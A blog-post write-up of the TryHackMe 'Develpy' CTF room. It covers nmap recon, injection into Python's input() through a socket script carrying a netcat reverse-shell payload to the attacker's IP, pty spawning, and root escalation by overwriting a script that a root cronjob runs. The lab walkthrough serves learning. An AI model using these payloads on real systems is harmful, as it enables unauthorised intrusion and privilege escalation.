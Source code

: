 ```yaml
---
layout: post
permalink: /posts/thm/develpy
title: "THM write-up: Develpy"
date: 2020-08-08 21:15
tags: tryhackme CTF recon privilege_escalate python cronjob
description: "This is my fourth boot2me by bsides Guatemala series. You need to know the basic Python programming and Python socket."
---
```


![titlecard](/assets/images/THM/2020-08-08-develpy/1.png)

[Link: https://tryhackme.com/room/bsidesgtdevelpy](https://tryhackme.com/room/bsidesgtdevelpy)

Another time, any tryhackme CTF write-up. This is my fourth boot2me by bsides Guatemala series. You need to know [the basic Python programming](https://www.w3schools.com/python/) and [Python socket](https://www.w3schools.com/python/) as the pre-requisites of this challenge. I strongly recommend you to do some reading on the Python socket before proceeding to this challenge. If you have a strong Python background, this is just a piece of cake for you. 

## Task 1: Capture the flags

Capture the flag is our top priority!

### Task 1-1: Capture user's flag

As always, fire up your Nmap scanner with the following command.

```
nmap -A -v <Machine IP>
```

![nmap](/assets/images/THM/2020-08-08-develpy/2.png)

There are two open ports available which are port 22 (SSH) and port......... 10000? What is port 10000 exactly? Well, it won't hurt to make a visit to the port via the browser. 

![error](/assets/images/THM/2020-08-08-develpy/3.png)

Looks like a Python error handling message. The error highlight the input() function and I guess we have input an invalid value which triggered the error. Huh, that is interesting. How about we create a client socket script to communicate with port 10000?

```python
#Code only compatible with  python3
import socket

host = '10.10.28.237' #Change this
port = 10000

s = socket.socket()
s.connect((host,port))

while 1:
	data = s.recv(2048).decode('utf-8')
	print(data)
	data = s.recv(2048).decode('utf-8')
	print(data)
	s.send(b'1\n') #Send a proper interger value
	message = input('--- Press enter to continue ---')
s.close()
```

I'm going to send a proper input to the server and see what is the response return from the server.

![run script](/assets/images/THM/2020-08-08-develpy/4.png)

Looks like it did return something interesting from the server. How about we send '10' to the server instead of '1'.

![more run](/assets/images/THM/2020-08-08-develpy/5.png)

It returns 10 sequences of ping' like response. Huh........ we are going to exploit the input() function right now. After doing some research, I come across the [python vulnerability](http://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html). You can inject a shell inside the input() function. For this challenge, I'm going to create a reverse shell. Use the following python script to create a reverse shell.

```python
import socket

host = '10.10.10.10' # change this
port = 10000

s = socket.socket()
s.connect((host,port))

while 1:
	data = s.recv(2048).decode('utf-8')
	print( data)
	data = s.recv(2048).decode('utf-8')
	print(data)
	s.send(b'__import__("os").system("nc -e /bin/sh <tunnel IP> 4444")\n') # change the tunnel IP
s.close()
```

Make sure you change the [<Tunnel IP>](https://tryhackme.com/access) and open a Netcat listener in your terminal before running the above Python script.

```
nc -lvnp 4444
```

![reverse shell](/assets/images/THM/2020-08-08-develpy/6.png)

Oh yes, you are know created a reverse shell on the victim machine. After that, we are going to spawn a terminal using the following line.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![spawn shell](/assets/images/THM/2020-08-08-develpy/7.png)

That is much better. We are going to capture the user's flag right now.

![user flag](/assets/images/THM/2020-08-08-develpy/8.png)

### Task 1-2: Capture root's flag

Celebrate now while you can, the next task gonna be very tricky. There are two files caught us some attention which is the run.sh and root.sh.

![root file](/assets/images/THM/2020-08-08-develpy/9.png)

![root file run](/assets/images/THM/2020-08-08-develpy/10.png)

Running the root.sh give us 'permission denied' while run.sh didn't give us any interesting result. In addition, we can't execute sudo -l  because we have zero clues on the king's password. What to do? cronjob perhaps.

![cronjob](/assets/images/THM/2020-08-08-develpy/11.png)

Checking the crontab give us the above result. For your information, the cronjob runs the root.sh and run.sh every second. To verify our finding, I compared the creation time for the .pid file and the current time.

![date](/assets/images/THM/2020-08-08-develpy/12.png)

Yup, the cronjob run every second. By referring back the crontab, the root user somehow bashes the root.sh inside king's directory. If you have followed up my [first boot2root write-up](https://deskel.github.io/posts/thm/library), we can remove the root.sh file and create new content within it. For the sake of simplicity, i only pull the root.txt from the root user.

```
rm root.sh
echo 'cp /root/root.txt /home/king/root.txt' > root.sh
```

Wait for a minute.........

![root flag](/assets/images/THM/2020-08-08-develpy/13.png)

Boom, the root.txt is now presented in king's directory. Read the file and capture the flag.

## Conclusion

That's it, we finished our fourth boot2root by bsides Guatemala walkthrough. Hope you learn something today, until next time ;)

